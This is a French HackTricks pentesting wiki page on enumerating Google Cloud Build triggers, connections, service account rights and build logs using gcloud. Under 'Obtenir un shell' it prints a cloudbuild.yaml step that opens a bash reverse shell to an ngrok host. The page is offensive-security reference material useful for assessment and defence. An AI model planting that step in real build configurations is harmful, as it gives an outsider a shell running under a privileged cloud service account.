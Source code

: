 # GCP - Énumération de Cloud Build

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs exclusifs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informations de base

Google Cloud Build est une plateforme CI/CD gérée qui **automatise les processus de construction et de déploiement de logiciels**, s'intégrant avec les **dépôts de code source** et prenant en charge un large éventail de langages de programmation. Elle **permet aux développeurs de construire, tester et déployer du code automatiquement** tout en offrant la flexibilité de personnaliser les étapes de construction et les flux de travail.

Chaque déclencheur Cloud Build est **lié à un dépôt Cloud ou directement connecté à un dépôt externe** (Github, Bitbucket et Gitlab).

{% hint style="success" %}
Je n'ai trouvé aucun moyen de voler le jeton Github/Bitbucket d'ici ou des dépôts Cloud car lorsque le dépôt est téléchargé, il est accédé via une URL [https://source.cloud.google.com/](https://source.cloud.google.com/) et Github n'est pas accédé par le client.
{% endhint %}

### Événements

Le Cloud Build peut être déclenché si :

* **Push sur une branche** : Spécifiez la branche
* **Push d'un nouveau tag** : Spécifiez le tag
* **Pull request** : Spécifiez la branche qui reçoit la PR
* **Invocation manuelle**
* **Message Pub/Sub** : Spécifiez le sujet
* **Événement Webhook** : Exposera une URL HTTPS et la requête doit être authentifiée avec un secret

### Exécution

Il y a 3 options :

* Un yaml/json **spécifiant les commandes** à exécuter. Habituellement : `/cloudbuild.yaml`
* Seul celui qui peut être spécifié "en ligne" dans la console web et dans le cli
* Option la plus courante
* Pertinent pour un accès non authentifié
* Un **Dockerfile** à construire
* Un **Buildpack** à construire

### Permissions SA

Le **Compte de Service a le scope `cloud-platform`**, il peut donc **utiliser tous les privilèges**. Si **aucun SA n'est spécifié** (comme lors de la soumission), le **SA par défaut** `<proj-number>@cloudbuild.gserviceaccount.com` sera **utilisé**.

Par défaut, aucune permission n'est accordée, mais il est assez facile d'en donner :

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Approbations

Il est possible de configurer un Cloud Build pour **exiger des approbations pour l'exécution des constructions** (désactivé par défaut).

### Connexions & Dépôts

Des connexions peuvent être créées sur :

* **GitHub** : Il affichera une invite OAuth demandant la permission de **obtenir un jeton Github** qui sera stocké dans le **Gestionnaire de Secrets**.
* **GitHub Enterprise** : Il demandera d'installer une **GithubApp**. Un **jeton d'authentification** de votre hôte GitHub Enterprise sera créé et stocké dans ce projet comme un secret du **Gestionnaire de Secrets**.
* **GitLab / Enterprise** : Vous devez **fournir le jeton d'accès API et le jeton d'accès API en lecture** qui seront stockés dans le **Gestionnaire de Secrets**.

Une fois une connexion générée, vous pouvez l'utiliser pour **lier des dépôts auxquels le compte Github a accès**.

Cette option est disponible via le bouton :

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Notez que les dépôts connectés avec cette méthode sont **uniquement disponibles dans les déclencheurs utilisant la 2ème génération**.
{% endhint %}

### Connecter un dépôt

Ce n'est pas la même chose qu'une **`connexion`**. Cela permet **différentes** manières d'obtenir **l'accès à un dépôt Github ou Bitbucket** mais **ne génère pas un objet de connexion, mais cela génère un objet de dépôt (de 1ère génération).**

Cette option est disponible via le bouton :

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Stockage

Parfois, Cloud Build va **générer un nouveau stockage pour stocker les fichiers pour le déclencheur**. Cela se produit par exemple dans l'exemple que GCP offre avec :
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Un bucket Storage nommé [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) est créé pour stocker un `.tgz` avec les fichiers à utiliser.

### Obtenir un shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Énumération

Vous pourriez trouver **des informations sensibles dans les configurations de build et les journaux**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Élévation de privilèges

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Accès non authentifié

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post-exploitation

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
